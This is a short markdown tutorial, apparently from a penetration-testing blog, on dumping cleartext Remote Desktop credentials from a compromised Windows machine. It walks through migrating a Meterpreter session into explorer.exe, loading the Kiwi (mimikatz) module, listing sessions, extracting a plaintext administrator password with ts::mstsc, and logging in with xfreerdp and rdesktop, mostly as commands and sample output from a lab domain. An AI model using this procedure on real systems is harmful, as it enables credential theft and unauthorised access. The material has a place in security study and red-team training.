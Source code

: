 ```yaml
---
title: "Dumping RDP Credentials For Logged In User"
date: "2022-02-28"
description: "Dumping RDP Credentials For Logged In User"
coverimage: Dumping_RDP_Credentials_For_Logged_In_User.jpg
tags: 
published: true
---
```

In this tutorial, we will assume you have a Meterpreter Shell On a Windows Box

Migrate current process into `explorer.exe`
```
migrate -N explorer.exe
```

Take a look at the systems running processes. Here we are looking for  `mstsc.exe`. The `mstsc.exe` 

"Creates connections to Remove Desktop Session Host Servers of other remote computers."

Source:
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc

Now we load the Kiwi Module in Meterpreter
```
load kiwi
```

Now we want to look if there are any active sessions running using the kiwi module
```
kiwi_cmd ts::sessions
```

Example output below. Here we can see one active Administrator from the marvel domain. 
```

Session: 0 - Services
  state: Disconnected (4)
  user :  @ 
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: *1 - Console
  state: Active (0)
  user : Administrator @ MARVEL
  Conn : 2/27/2022 11:08:55 PM
  logon: 2/27/2022 11:09:03 PM
  curr : 2/28/2022 12:16:21 AM
  lock : no

Session: 65536 - RDP-Tcp
  state: Listen (6)
  user :  @ 
  lock : no
```

Attempt to drop clear text credentials. 
```
kiwi_cmd ts::mstsc
```

Example output
```
ServerName                                [wstring] '10.10.10.250'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '10.10.10.250'
UserName                                  [wstring] 'Administrator'
Domain                                    [wstring] 'MARVEL'
Password                                  [protect] 'Passw0rd!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '10.10.10.250'
RDmiUsername                              [wstring] ''
```

Now RDP into the box. 
```
xfreerdp /u:Administrator /p:Passw0rd! /v:10.10.10.250
rdesktop -u Administrator -p Passw0rd! 10.10.10.250
```